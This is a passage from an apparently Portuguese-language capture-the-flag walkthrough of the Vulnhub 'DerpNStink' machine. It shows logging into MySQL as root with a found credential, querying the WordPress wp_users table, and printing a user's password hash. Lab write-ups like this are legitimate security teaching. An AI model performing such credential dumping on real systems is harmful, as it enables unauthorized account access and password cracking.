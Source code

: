 > - **root:mysql**


### MySQL

* Vamos entrar no mysql com a credencial encontrada...

```bash
mysql -uroot -p
```

![](/assets/img/Vulnhub/DerpNStiNK/mysql-login.png)



* Vamos ver o que o banco tem de interessante. Temos alguns banco de dados, mas vamos acessar primeiramente o do wordpress...

```mysql
show databases;
use wordpress;
show tables;
select * from wp_users;
```

![](/assets/img/Vulnhub/DerpNStiNK/mysql-wp-users.png)

> - Encontramos na tabela **wp_users** o cadastro dos dois usuarios da aplicacao. Um deles e o que ja temos a senha, admin... O outro usuario e o **unclestinky**
> - Na coluna da senha tem um hash
> - **unclestinky:$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41**
